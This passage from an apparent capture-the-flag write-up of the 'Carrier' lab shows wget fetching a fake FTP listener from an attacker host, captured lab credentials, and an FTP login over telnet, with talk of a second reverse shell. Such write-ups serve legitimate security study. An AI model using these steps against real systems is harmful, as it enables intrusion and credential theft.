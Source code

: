 Then on the target we can download it with the wget 10.10.14.2/ftpds.py -O ftp.py and run it:

The script runs threaded as a background listener and it is not until you hit enter that it displays the output. Letting it run for 10 minutes or so should be enough to get everything we need:
```
root@r1:~# python3 ftp.py
python3 ftp.py
On 10.120.15.10 : 21
Enter to end...

Received: USER root

Received: PASS BGPtelc0rout1ng

Received: PASV

open 10.120.15.10 44011
Received: STOR secretdata.txt
```
  
Once this is done it is time to use the credentials to connect. But first we need to do some cleanup. The BGP routes will automatically be cleaned up by a script running on the box, and the adapter can be terminated with ifconfig eth2:0 down

At this point you still need to have two shells on the box.

We can attempt to connect to the FTP server using the credentials discovered but find that we are unable to:
![210141239.png]({{site.baseurl}}/Images/Carrier/210141239.png)

So we try a different method of connecting, using two telnet sessions.
```
root@r1:~# telnet 10.120.15.10 21
telnet 10.120.15.10 21
Trying 10.120.15.10...
Connected to 10.120.15.10.
Escape character is '^]'.
220 (vsFTPd 3.0.3)
USER root
331 Please specify the password.
PASS BGPtelc0rout1ng
230 Login successful.
PASV
227 Entering Passive Mode (10,120,15,10,189,173).
```
  
The first session we connect directly to the FTP using telnet and switch to PASV mode in order to interact with the FTP server.

Once connected we enter PASV mode to enable file transfers

The output of the PASV command will contain something like:

`227 Entering Passive Mode (10,120,15,10,189,173)`

We use the last two numbers to calculate which port we need for our second reverse shell.

